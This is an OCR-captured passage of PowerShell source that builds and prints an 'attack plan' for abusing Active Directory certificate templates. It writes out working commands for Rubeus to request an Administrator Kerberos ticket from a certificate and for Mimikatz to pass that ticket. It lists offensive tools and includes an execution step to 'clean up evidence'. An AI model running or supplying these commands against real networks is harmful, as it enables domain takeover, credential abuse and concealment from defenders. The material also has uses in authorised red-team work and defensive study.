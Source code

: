 ```powershell
                
                $attackPlan.EscalationPaths += @{
                    Step = 2
                    Action = "Use certificate for authentication"
                    Tool = "Rubeus.exe"
                    Command = ".\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /outfile:admin.kirbi"
                    ExpectedResult = "Kerberos TGT for Administrator"
                }
                
                $attackPlan.EscalationPaths += @{
                    Step = 3
                    Action = "Perform privilege escalation"
                    Tool = "Mimikatz.exe"
                    Command = ".\mimikatz.exe kerberos::ptt admin.kirbi"
                    ExpectedResult = "Administrator privileges"
                }
            }
        }
        
        # Identify tool requirements
        $attackPlan.ToolRequirements = @(
            "Certify.exe - AD CS enumeration and abuse",
            "OpenSSL - Certificate manipulation",
            "Rubeus.exe - Kerberos ticket manipulation",
            "Mimikatz.exe - Credential extraction"
        )
        
        # Generate execution steps
        $attackPlan.ExecutionSteps = @(
            "1. Enumerate AD CS infrastructure",
            "2. Identify vulnerable certificate templates",
            "3. Request malicious certificates",
            "4. Extract private keys if exportable",
            "5. Use certificates for authentication",
            "6. Perform privilege escalation",
            "7. Clean up evidence"
        )
        
        # Display attack plan
        Write-Host "Certificate Abuse Attack Plan:" -ForegroundColor Green
        
        Write-Host "`nImmediate Attack Opportunities:" -ForegroundColor Red
        foreach ($attack in $attackPlan.ImmediateAttacks) {
            Write-Host "  Template: $($attack.Template)" -ForegroundColor Cyan
            Write-Host "    Attack Type: $($attack.AttackType)"
            Write-Host "    Description: $($attack.Description)"
            Write-Host "    Tool: $($attack.Tool)"
            Write-Host "    Command: $($attack.Command)"
            Write-Host "    Risk: $($attack.Risk)"
            Write-Host ""
        }
        
        Write-Host "Privilege Escalation Paths:" -ForegroundColor Yellow
        foreach ($step in $attackPlan.EscalationPaths) {
            Write-Host "  Step $($step.Step): $($step.Action)" -ForegroundColor Cyan
            Write-Host "    Tool: $($step.Tool)"
            Write-Host "    Command: $($step.Command)"
            Write-Host "    Expected Result: $($step.ExpectedResult)"
            Write-Host ""
        }
        
        Write-Host "Required Tools:" -ForegroundColor Green
```